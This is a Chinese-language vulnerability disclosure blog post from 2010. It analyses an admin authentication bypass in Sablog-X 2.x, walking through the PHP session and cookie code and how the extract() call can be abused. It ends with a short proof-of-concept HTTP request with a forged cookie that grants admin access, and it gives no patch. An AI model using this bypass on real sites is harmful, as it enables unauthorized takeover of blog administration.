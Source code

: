 ```yaml
---
title: Sablog-X 2.X 后台管理权限欺骗漏洞
description: 一post/Sablog-X-2.X-houtaiguanliquanxianqipianloudong.html">Sablog-X2.X后台管理权限欺骗漏洞描叙：由于post/Sablog-X-2.X-houtaiguanliquanxianqipianloudong.html">Sablog-xv2.x的后台认证过程存在严重的逻辑问题，导致构造特殊的cookie直接登录后台。二分析：……
date: 2010-02-25 10:49:18
category: 漏洞信息
tags: ['Sablog', '漏洞信息', 'PoC']
post_id: 1078
alias: Sablog-X-2.X-houtaiguanliquanxianqipianloudong
ViewNums: 2816
---
```


一 [Sablog-X 2.X 后台管理权限欺骗漏洞](/blog/sablog-x-2x-houtaiguanliquanxianqipianloudong)描叙：

由于[Sablog-x v2.x](/blog/sablog-x-2x-houtaiguanliquanxianqipianloudong)的后台认证过程存在严重的逻辑问题，导致构造特殊的cookie直接登录后台。

二 分析 ：

// cp.php

if (!$sax_uid || !$sax_pw || !$sax_logincount || !$sax_hash) {
// 只要这个条件不满足,就可以通过后台的权限验证了
 loginpage();
}
...
if ($sax_group == 1) {
// 如果要获得管理员权限,还必须保证$sax_group的值为1
...

下面来看下这几个变量是怎么来的

// common.inc.php

list($sax_uid, $sax_pw, $sax_logincount) = $_COOKIE['sax_auth'] ? explode(" ", authcode($_COOKIE['sax_auth'], 'DECODE')) : array('', '', '');
// authcode()就是简单的调用base64_decode
$sax_hash = sax_addslashes($_COOKIE['sax_hash']);
// 这些变量来自$_COOKIE,是可以控制的:)
// 不过后面的代码在一定条件下会通过extract($_EVO)来重新注册这些变量

$sax_uid = intval($sax_uid);
$sax_pw = sax_addslashes($sax_pw);
$sax_logincount = intval($sax_logincount);
$sax_group = 4;
// 默认的值为4,而我们需要的值是1
$_EVO = array();
// 这里是fix那个变量覆盖的漏洞:)

$seccode = $sessionexists = 0;
$userfields = 'u.userid AS sax_uid, u.username AS sax_user, u.password AS sax_pw, u.groupid AS sax_group, u.logincount AS sax_logincount, u.email as sax_email, u.url as sax_url, u.lastpost, u.lastip, u.lastvisit, u.lastactivity';
// 这里定义的字段包括sax_user、sax_pw、sax_group、sax_logincount,这些都是后台权限验证时要用到的
if ($sax_hash) {
 if ($sax_uid && $sax_pw) {
// 流程[1]
// 这里会查询sax_group,但如果我们想让查询出的值为1[也就是说查询出管理员的信息],就必须知道管理员的sax_hash、sax_pw、sax_logincount等多个值
  $query = $DB->query("SELECT s.hash, s.seccode, $userfields
   FROM {$db_prefix}users u
   LEFT JOIN {$db_prefix}sessions s ON (s.uid = u.userid)
   WHERE s.hash='$sax_hash' AND u.userid='$sax_uid' AND CONCAT_WS('.',s.ip1,s.ip2,s.ip3,s.ip4)='$onlineip'
   AND u.password='$sax_pw' AND u.logincount='$sax_logincount' AND s.auth_key='$sax_auth_key'");
 } else {
  $query = $DB->query("SELECT hash,uid as sessionuid,groupid,seccode,lastactivity FROM {$db_prefix}sessions WHERE hash='$sax_hash' AND CONCAT_WS('.',ip1,ip2,ip3,ip4)='$onlineip' LIMIT 1");
// 流程[2]
// 如果我们知道管理员的sax_hash和onlineip,就可以使下面的$_EVO['sessionuid']的值为管理员的id
 }
 if ($_EVO = $DB->fetch_array($query)){
  $sessionexists = 1;
  if($_EVO['sessionuid']) {
// 流程[3]
   $query = $DB->query("SELECT $userfields FROM {$db_prefix}users u WHERE u.userid='".intval($_EVO['sessionuid'])."'");
   $_EVO = array_merge($_EVO, $DB->fetch_array($query));
// 这里查询的数据会合并到$_EVO,而我们只要能控制$_EVO['sessionuid']的值为1[假设我们要查询的管理员id为1],就可以查询出正确的管理员信息,这样就可以保证sax_group的值为1了
   $sax_uid = $_EVO['userid'];
  }
 } else {
  if($_EVO = $DB->fetch_one_array("SELECT hash,groupid,seccode,lastactivity FROM {$db_prefix}sessions WHERE hash='$sax_hash' AND CONCAT_WS('.',ip1,ip2,ip3,ip4)='$onlineip'")) {
   dcookies();
   $sessionexists = 1;
  }
 }
}
......
@extract($_EVO);

由上面的代码可以看到,如果我们知道session表中uid为1的数据的sax_hash和onlineip,通过流程[2][3]就可以查询出正确的管理员信息,再通过extract($_EVO)注册变量,就可以通过后台的验证,获得管理员权限了:)
那么我们如何知道正确的sax_hash和onlineip呢？

// global.func.php

function updatesession() {
...
  replacesession(1);
...
}

function replacesession($insert = 0) {
...
$ips = explode('.', $onlineip);
...
  $DB->query("INSERT INTO {$db_prefix}sessions (hash, auth_key, ip1, ip2, ip3, ip4, uid, groupid, lastactivity, seccode, is_robot) VALUES ('$sax_hash', '$sax_auth_key', '$ips[0]', '$ips[1]', '$ips[2]', '$ips[3]', '$sax_uid', '$sax_group', '$timestamp', '$seccode', '".IS_ROBOT."')");
...

replacesession()函数为我们提供帮助,因为$sax_hash、$sax_uid、$onlineip这些变量是可以控制的,所以我们可以向session表中出入一条uid为1的数据:)

首先我们使$sax_uid为1,$sax_pw为空,这样就会跳过流程[1]执行流程[2],这时我们的sax_hash和onlineip在session表中并不存在,所以流程[3]不会执行,通过extract($_EVO)注册变量时也不会重新注册$sax_uid、$sax_hash和$onlineip,这样我们就可以通过updatesession()函数向session表中插入一条uid为1同时sax_hash和onlineip也是我们知道的数据了
然后我们重新执行上面的过程,因为这时session表里已经有了我们需要的数据了,流程[3]将被执行,user表中uid为1的管理员数据将被查询出并合并到$_EVO,并通过extract()重新注册变量[$sax_group的值将被重新注册为1],这样我们就可以通过后台权限验证,并获得管理员权限了:)

三 [Sablog-X 2.X 后台管理权限欺骗漏洞利用代码](/blog/sablog-x-2x-houtaiguanliquanxianqipianloudong) :

PoC:

GET /cp.php  HTTP/1.1;
Host: 127.0.0.1
Connection: Close
Cookie: sax_auth=MQkJ;sax_hash=abcdef;

四 [Sablog-X 2.X 后台管理权限欺骗漏洞补丁](/blog/sablog-x-2x-houtaiguanliquanxianqipianloudong)[fix]：

缺

by Ryat[puretot]
mail: puretot at gmail dot com
team: [http://www.80vul.com](http://www.80vul.com/)
data: 2010/2/24


